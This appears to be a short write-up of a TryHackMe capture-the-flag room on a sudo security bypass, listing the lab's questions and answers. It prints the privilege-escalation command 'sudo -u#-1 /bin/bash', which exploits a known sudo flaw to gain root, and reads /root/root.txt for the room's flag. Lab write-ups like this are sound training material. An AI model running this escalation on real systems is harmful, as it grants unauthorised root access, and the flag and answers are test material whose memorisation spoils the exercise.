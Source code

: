 # Sudo Security Bypass

## Task 1 - Deploy

I mean, there's not a lot to do here...

## Task 2 - Security Bypass

Connecting to the machine using ssh:
```bash
ssh tryhackme@10.10.201.79 -p 2222
```

### 1. What command are you allowed to run with sudo?
```
/bin/bash
```
We can run `sudo -l` to see all the commans that our user can run with sudo.

### 2. What is the flag in /root/root.txt?
```
THM{l33t_s3cur1ty_bypass}
```
Once we know that we dont have root access, we can elevate our privileges with the following command:
```bash
sudo -u#-1 /bin/bash
```
This will change our user into root, and with that we can just find the flag.
```bash
cat /root/root.txt
```
